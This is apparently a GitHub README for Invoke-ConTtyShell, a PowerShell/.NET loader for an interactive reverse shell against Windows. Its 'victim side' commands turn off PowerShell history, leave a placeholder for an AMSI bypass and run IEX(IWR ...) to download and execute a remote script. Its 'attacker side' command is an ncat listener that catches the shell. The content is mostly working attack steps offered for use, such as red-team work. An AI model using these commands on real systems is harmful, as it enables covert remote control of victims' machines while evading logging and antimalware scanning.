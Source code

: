 # Invoke-ConTtyShell
.Net Assembly loader for the ConTtyShell


Tested on:
Windows 10 22H2 x64

Victim side usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-ConTtyShell/main/Invoke-ConTtyShell.ps1')

Invoke-ConTtyShell -Command "-h"
```

Attacker side usage:
```
stty raw -echo; (stty size; cat) | ncat -lvnp 6666
```
